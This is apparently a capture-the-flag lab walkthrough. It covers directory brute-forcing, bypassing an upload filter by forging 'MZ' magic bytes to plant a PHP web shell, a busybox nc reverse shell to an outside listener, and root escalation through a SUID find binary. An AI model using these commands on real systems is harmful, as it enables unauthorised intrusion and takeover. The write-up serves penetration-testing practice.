
Running feroxbuster:
```
feroxbuster -u http://192.168.155.33/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```

We discover a backup.zip.

We can see the code for the web application:



It is a POST request to upload.php


Now to reverse this:
```php
<?php
$magicbytes = strtoupper(substr(bin2hex('MZ'),0,4));
print_r($magicbytes)
?>
```
Running it we get the magic byte we need:



We can upload a shell this way.

Now we can test it:
http://192.168.155.33/upload/shell.php?cmd=whoami


Now to get a shell:
```
http://192.168.155.33/upload/shell.php?cmd=busybox%20nc%20192.168.45.233%2080%20-e%20bash
```
Start a listener:
```
sudo rlwrap -nlvp 80
```



We find an unknown SUID binary using linpeas:



This is find binary.

Using the gtfobins for find:


```
/opt/fileS . -exec /bin/sh -p \; -quit
```

